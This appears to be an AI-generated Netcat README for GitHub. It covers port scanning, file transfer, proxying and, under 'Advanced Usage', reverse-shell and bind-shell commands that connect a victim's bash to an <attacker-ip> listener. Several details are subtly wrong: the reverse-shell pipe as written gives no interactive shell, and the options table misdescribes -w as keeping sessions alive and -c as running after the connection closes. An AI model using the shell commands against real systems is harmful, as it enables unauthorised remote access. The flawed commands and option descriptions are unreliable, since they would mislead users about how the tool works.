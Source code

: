 Here is the revised version of the **Netcat README** in `.md` format for GitHub, including a comprehensive table of options and a valid cheat sheet link.

---

# Netcat (nc) - The Swiss Army Knife of Networking

## What is Netcat?

Netcat (`nc`) is a powerful networking tool used for various network-related tasks such as port scanning, banner grabbing, file transfers, debugging, and establishing reverse or bind shells. It supports both **TCP** and **UDP** protocols, making it a versatile utility for penetration testers, network administrators, and developers.

---

## Installation

Make sure Netcat is installed on your system. To check:

```bash
nc -h
```

If not installed, use the following commands to install it:

- **Debian/Ubuntu**:  
  ```bash
  sudo apt-get install netcat
  ```
- **CentOS/Fedora**:  
  ```bash
  sudo yum install nc
  ```
- **macOS**:  
  ```bash
  brew install netcat
  ```

---

## Basic Usage

### 1. **Connecting to a TCP Port**

```bash
nc <target-ip> <port>
```
Example:
```bash
nc 192.168.1.100 80
```

### 2. **Sending Data to a Port**

```bash
echo "Hello" | nc <target-ip> <port>
```
Example:
```bash
echo "Hello" | nc 192.168.1.100 8080
```

### 3. **Port Scanning**

```bash
nc -zv <target-ip> <start-port>-<end-port>
```
Example:
```bash
nc -zv 192.168.1.100 1-1000
```

---

## Intermediate Usage

### 4. **Listening on a Port (Simple Server)**

```bash
nc -l <port>
```
Example:
```bash
nc -l 12345
```

### 5. **File Transfer**

#### Sending a file:
```bash
nc <target-ip> <port> < file.txt
```
Example:
```bash
nc 192.168.1.100 12345 < file.txt
```

#### Receiving a file:
```bash
nc -l <port> > file.txt
```
Example:
```bash
nc -l 12345 > file.txt
```

---

## Advanced Usage

### 6. **Creating a Reverse Shell**

#### On the attacker's machine (listening for shell):
```bash
nc -lvp 4444
```

#### On the victim’s machine (initiating the reverse shell):
```bash
/bin/bash -i | nc <attacker-ip> 4444
```

### 7. **Creating a Bind Shell**

#### On the target machine (setting up the shell):
```bash
nc -lvp 4444 -e /bin/bash
```

#### On the attacker’s machine (connecting to the shell):
```bash
nc <target-ip> 4444
```

---

## Other Useful Commands

### 8. **UDP Mode**

```bash
nc -u <target-ip> <port>
```
Example:
```bash
nc -u 192.168.1.100 12345
```

### 9. **Netcat as a Web Server**

```bash
while true; do echo -e 'HTTP/1.1 200 OK\n\nHello, World' | nc -l -p 80; done
```

### 10. **Proxying Traffic**

```bash
mkfifo /tmp/fifo
nc -l 12345 < /tmp/fifo | nc <target-ip> <target-port> > /tmp/fifo
```

---

## Netcat Options Table

| **Option**   | **Description**                                                |
|--------------|----------------------------------------------------------------|
| `-l`         | Listen mode, used to set up a listener on a specified port.    |
| `-p <port>`  | Specify the port for the listener or connection.               |
| `-v`         | Enable verbose mode to display detailed information.           |
| `-z`         | Zero-I/O mode, used for port scanning without sending data.    |
| `-u`         | Use UDP protocol (default is TCP).                             |
| `-e <cmd>`   | Execute the given command after connection (useful for shells).|
| `-w <secs>`  | Set timeout for idle connections (useful for keeping sessions alive). |
| `-n`         | No DNS resolution (use raw IP addresses only).                 |
| `-c <cmd>`   | Execute a command locally after connection closes.             |

---

## Netcat Cheat Sheet

You can access a detailed **[Netcat Cheat Sheet](https://pentest.sans.org/security-resources/posters/netcat-cheat-sheet/240/download)** by SANS, which provides more advanced usage tips for both Linux and Windows.

---

## Conclusion

Netcat is a versatile and essential tool for network testing and penetration testing. Whether you are scanning ports, transferring files, or establishing a reverse shell, Netcat can handle the task with ease. Be sure to explore the full range of its capabilities responsibly.

